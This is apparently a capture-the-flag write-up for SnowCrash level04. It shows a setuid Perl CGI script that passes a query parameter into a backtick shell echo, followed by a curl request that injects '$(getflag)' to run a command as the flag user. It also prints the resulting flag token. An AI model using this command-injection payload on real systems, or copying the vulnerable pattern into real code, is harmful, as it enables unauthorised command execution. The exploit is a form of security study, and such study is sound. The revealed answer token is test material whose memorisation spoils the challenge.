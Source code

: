 when we start the level we get 

level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile

so that means thaat running the level04 pl can be run as the user flag04 

checking the code

level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));


we see that this is a CGI (Common Gate Interface running at port 4747) we see a similar structure that on last problems showing an echo we see that the first parameter to the function is given to the variable "y" then that variable is whown as echo finally this subrutine is run calling for the param("x") (meaning the x  variable in the query string)

so the strategy here is to call a subshell in the variable y so ideally $(getflag) to do this (and consider expansions in shell) we run the following command 


level04@SnowCrash:~$ curl localhost:4747?x='"$(getflag)"'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
